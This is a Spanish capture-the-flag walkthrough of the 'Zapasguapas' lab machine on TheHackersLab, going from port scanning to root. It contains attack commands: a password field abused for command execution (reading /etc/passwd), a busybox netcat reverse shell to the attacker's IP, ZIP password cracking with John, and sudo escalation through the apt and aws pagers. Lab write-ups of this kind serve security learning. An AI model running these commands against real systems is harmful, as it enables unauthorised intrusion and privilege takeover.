









# 👟 Zapasguapas

**Por PanTrO**

¡Nueva máquina a la saca! Esta vez nos enfrentamos a **Zapasguapas**, una tienda online de zapatillas que parece muy moderna, pero que tiene unos descuidos de seguridad que dan miedo. Vamos a ver cómo pasar de un formulario de login a controlar todo el servidor.

---

## Fase 1: Reconocimiento. Escaneando el escaparate.

Como siempre, empezamos mapeando el terreno para ver qué servicios están expuestos. Lanzo el escaneo agresivo de puertos:


```Bash
nmap --stats-every=5s -p 0-65535 --open --min-rate=5000 -T5 -A -sT -Pn -n -v 192.168.1.19 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html
```

**Puertos abiertos:**

- **22/tcp (SSH):** OpenSSH 9.2p1 (Debian).

- **80/tcp (HTTP):** Apache httpd 2.4.57.



---

## Fase 2: Enumeración Web. El Login sospechoso.

Al entrar en la web, vemos una tienda de zapatillas con modelos, testimonios y un formulario de contacto. A simple vista el código fuente no nos dice mucho, así que toca sacar las herramientas de fuzzing para buscar lo que no se ve.

**Escaneo con Gobuster:**


```Bash
gobuster dir -u http://192.168.1.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html 
```

Tras un poco de ruido, encontramos una ruta clave: `/login.html`.



---

## Fase 3: Explotación. RCE en el formulario.

Al inspeccionar el código fuente de `login.html`, encontré un script de JavaScript que enviaba los datos del formulario de una manera muy peculiar. Un comentario en el código lo confirmaba: **"Ejecutar el comando proporcionado como contraseña"**.

Básicamente, el servidor toma lo que pongas en el campo de password y lo ejecuta en la shell.

**Prueba de Concepto (PoC):** Puse `cat /etc/passwd` en el campo de contraseña y ¡voilà!, el sistema me escupió el listado de usuarios en el `div#result`. Tenemos una **RCE (Remote Code Execution)** de manual.



**Obteniendo la Reverse Shell:** Para salir de la web y tener una terminal real, usé un payload de `busybox`:

1. En mi máquina: `nc -lvnp 4444`

2. En el login: `busybox nc 192.168.1.13 4444 -e sh`


---

## Fase 4: Movimiento Lateral. El secreto del ZIP.

Ya dentro como `www-data`, toca estabilizar la shell:


```Bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# (Ctrl+Z, stty raw -echo; fg, reset xterm)
```

Revisando el sistema, encontré en `/opt` un archivo llamado `importante.zip`. Me lo llevé a mi máquina atacante montando un servidor rápido con `python3 -m http.server 8080`.

Una vez en mi equipo, le dimos caña con John:

1. `zip2john importante.zip > hash`

2. `john --wordlist=/usr/share/wordlists/rockyou.txt hash`



La contraseña del ZIP nos dio acceso a un `password.txt` que contenía las credenciales del usuario **pronike**. ¡Ya estamos dentro por SSH!

---

## Fase 5: Escalada de Privilegios. Guerra de marcas.

### De pronike a proadidas

Como `pronike`, tiramos un `sudo -l` y vemos que podemos ejecutar `apt` como el usuario **proadidas**:



```Bash
(proadidas) NOPASSWD: /usr/bin/apt
```

Usando la técnica de GTFOBins, aprovechamos el paginador de `apt` para saltar de usuario:


```Bash
sudo -u proadidas /usr/bin/apt get changelog apt
# Dentro de vim/less ponemos:
!/bin/bash
```

### De proadidas a Root

Repetimos la jugada. Ahora como `proadidas`, vemos que tenemos permisos de sudo sobre `aws`:



```Bash
(root) NOPASSWD: /usr/bin/aws
```

Igual que antes, aprovechamos que la ayuda de `aws` usa un paginador para invocar la shell definitiva:


```Bash
sudo /usr/bin/aws help
# Escribimos:
!/bin/bash
```



---

## Fase 6: Flags 🏁

¡Máquina coronada! Recogemos ambos trofeos de un solo golpe:


```Bash
cat /home/proadidas/user.txt /root/root.txt
```



---

Laboratorio practicado en la plataforma de **TheHackersLab**.